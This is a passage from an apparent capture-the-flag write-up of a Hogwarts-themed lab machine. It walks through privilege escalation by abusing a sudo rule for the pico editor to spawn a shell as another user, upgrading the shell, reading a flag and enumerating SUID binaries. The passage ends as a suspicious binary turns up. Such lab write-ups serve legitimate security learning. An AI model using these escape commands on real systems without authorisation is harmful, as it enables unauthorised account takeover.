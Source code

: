 
Let's start privilege escalation.



# PRIVILEGE ESCALATION
---


Let's check our sudo privileges:


```
harry@hogwartz-castle:~$ sudo -l
[sudo] password for harry:
Matching Defaults entries for harry on hogwartz-castle:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User harry may run the following commands on hogwartz-castle:
    (hermonine) /usr/bin/pico
    (hermonine) /usr/bin/pico
```

Weird, we can run `/usr/bin/pico` as user`hermonine`, let's check this on `gtfobins`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404182759.png)

Let's do this:

```
sudo -u hermonine TERM=xterm /usr/bin/pico 
ctrl R ctrl X
reset; sh 1>&0 2>&0
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404183940.png)

Let's get a more comfortable shell:

```
/usr/bin/script -qc /bin/bash /dev/null
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404183955.png)

```
hermonine@hogwartz-castle:/home/hermonine$ cat user2.txt
RME{p1c0-iZ-oLd-sk00l-nANo-64e977c63cb574e6}
```


If we check `find / -perm -4000 2>/dev/null`, we can see this:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250404184310.png)

Interesting, there's something called `/srv/time-turner/swagger`, let's take a look:
